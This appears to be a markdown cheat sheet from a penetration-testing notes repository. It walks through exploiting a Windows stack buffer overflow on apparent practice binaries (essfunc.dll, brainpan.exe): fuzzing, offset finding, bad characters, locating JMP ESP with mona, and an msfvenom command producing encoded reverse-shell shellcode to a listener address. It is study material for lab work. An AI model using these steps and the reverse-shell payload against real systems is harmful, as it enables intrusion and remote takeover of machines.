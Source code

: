 ### Buffer Overflows


#### The Process:
- 1 Spiking [finds the vulnerable command]
- 2 Fuzzing [attacks the specific command]
- 3 Finding the Offset [pattern_create.rb -l 9001]
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access

-----

# BOF

- 1 Connect find commands
```bash
nc -nv $IP $PORT
```

- 2 [Spike](/1_method/3_Exploitation/1_Buffer_Overflows/2_STATS.spike)
check if vulnerable

- 3 [Fuzzing](/1_method/3_Exploitation/1_Buffer_Overflows/3_fuzzing_simple.py)
```bash
msf-pattern_create -l <length>
```
Record value on EIP, select ESP and click "Follow in Dump"  
```bash
msf-pattern_offset.rb -q <value> -l <length>  
```

- 4 [Find BadChars](https://github.com/cytopia/badchars)
- [badchars](/1_method/3_Exploitation/1_Buffer_Overflows/99_badchars.md)
- [badchars.py](/1_method/3_Exploitation/1_Buffer_Overflows/4_badchars.py)

Check bad characters after EIP. common bad characters are 0x00, 0x0A. 
Follow dump in ESP to check are there something missing after that.



```bash
ESP > Follow in dump
```


	- Remove badchars as they occur to find all badchars to exclude
	- "Step by step" - careful steps, shellcode will not work with badchars
		- better to be safe than sorry, remove chars if unsure
	- Step back and check if not gaining shell

- 5 Use !mona to find the offset after the overflow

Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode


[mona modules](https://github.com/corelan/mona)
```powershell
C:\Program Files(x86)\Immunity Inc\Immunity Debugger\PyCommands
```
Load modules [find FALSE FALSE FALSE FALSE in security for dll]
```bash
!mona modules
```

```bash
msf-masm_shell
nasm > JMP ESP
00000000  FFE4              jmp esp
```
```
!mona find -s "\xFF\xE4" -m essfunc.dll
```
note return addresses (which will then hold the shellcode) to push into EIP 
```
0x625011af
0x625011bb
0x625011c7
```
> Other

```bash

msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
JMP ESP = FFE4

# !mona jmp -r esp -cpb "\x00\x0A" << bad character
# !mona modules
# !mona find -s "\xff\xe4" -m brainpan.exe
```
check the value of the address by naviate to it.
Set breakpoint
Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
e.g. 0x311712f3 >> "\xf3\x12\x17\x31"
Run again to check is the breakpoint triggered

shellcode / buffer in code is now:

```
"A" * [number of characters to EIP overwrite] + [JMP ESP location to push into EIP]
```

- 6 Follow address in Immunity debugger to test we are hitting the correct point
[offset.py](1_method/3_Exploitation/1_Buffer_Overflows/6_JMP_point.py)

```
->] 0x625011af
F2 # sets break point
```

- 7 Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.101.13 LPORT=9001 EXITFUNC=thread -f c -a x86 -b "\x00" -e x86/shikata_ga_nai
```




**NOTES: Running out of shell code space?**

Use the front of payload instead

1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
```
msf-nasm_shell JMP 
msf-nasm_shell EAX
msf-nasm_shell EBX
msf-nasm_shell ECX
msf-nasm_shell EDX
```
3. Append the address as shell code.
4. Add payload to the front



